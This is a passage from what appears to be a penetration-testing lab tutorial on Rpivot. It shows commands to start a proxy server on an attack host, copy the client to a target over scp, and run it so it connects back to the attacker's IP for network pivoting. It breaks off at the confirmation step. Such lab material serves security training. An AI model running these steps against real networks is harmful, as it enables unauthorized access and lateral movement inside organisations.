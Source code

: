 
## **3. Basic Rpivot Usage**

### **Step 1: Start Rpivot Server (Attack Host)**

```bash
# Run server.py on attack host
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

# Expected output:
Starting server on 0.0.0.0:9999
Proxy listening on 127.0.0.1:9050
Waiting for connections...
```

**Server Configuration:**
- **--proxy-port 9050**: SOCKS proxy port for tools
- **--server-port 9999**: Control port for client connections
- **--server-ip 0.0.0.0**: Listen on all interfaces

### **Step 2: Transfer Rpivot to Target**

```bash
# Transfer rpivot directory to pivot host
scp -r rpivot ubuntu@<target_ip>:/home/ubuntu/

# Example:
scp -r rpivot ubuntu@10.129.202.64:/home/ubuntu/

# Expected output:
client.py    100% 1234   1.2KB/s   00:01
server.py    100% 2345   2.3KB/s   00:01
README.md    100%  567   0.6KB/s   00:01
```

### **Step 3: Run Rpivot Client (Pivot Host)**

```bash
# SSH to pivot host
ssh ubuntu@10.129.202.64

# Navigate to rpivot directory
cd ~/rpivot

# Run client.py to connect back to attack host
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

# Expected output:
Backconnecting to server 10.10.14.18 port 9999
Connected to server
```

### **Step 4: Confirm Connection (Attack Host)**
